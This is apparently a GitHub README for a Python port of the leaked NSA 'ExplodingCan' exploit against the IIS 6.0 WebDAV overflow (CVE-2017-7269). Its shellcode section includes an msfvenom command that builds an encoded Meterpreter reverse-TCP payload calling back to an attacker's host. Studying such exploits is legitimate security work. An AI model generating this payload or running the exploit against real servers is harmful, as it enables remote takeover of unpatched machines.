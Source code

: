 # ExplodingCan

An implementation of ExplodingCan's exploit extracted from FuzzBunch, the "Metasploit" of the NSA.

![exploit](https://user-images.githubusercontent.com/1675387/34547090-d2c7309e-f0f8-11e7-83ca-02c1955432ad.png)

## Details

* **Vulnerability**: Microsoft IIS WebDav 'ScStoragePathFromUrl' Remote Buffer Overflow
* **CVE**: [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269)
* **Disclosure date**: March 31 2017
* **Affected product**: Microsoft Windows Server 2003 R2 SP2 x86


## Why?
Months ago I needed to study this exploit, and finally I implemented it in python.

## Shellcode

The shellcode must be in alphanumeric format due to the limitations of the bug.

Example using msfvenom from metasploit with the `alpha_mixed` encoder.:

```
$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode
```

## Links

* [Fuzzbunch framework](https://github.com/x0rz/EQGRP_Lost_in_Translation)
* [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
* [0patching the "Immortal" CVE-2017-7269](https://0patch.blogspot.com.es/2017/03/0patching-immortal-cve-2017-7269.html)
* [First exploit published](https://www.exploit-db.com/exploits/41738/)
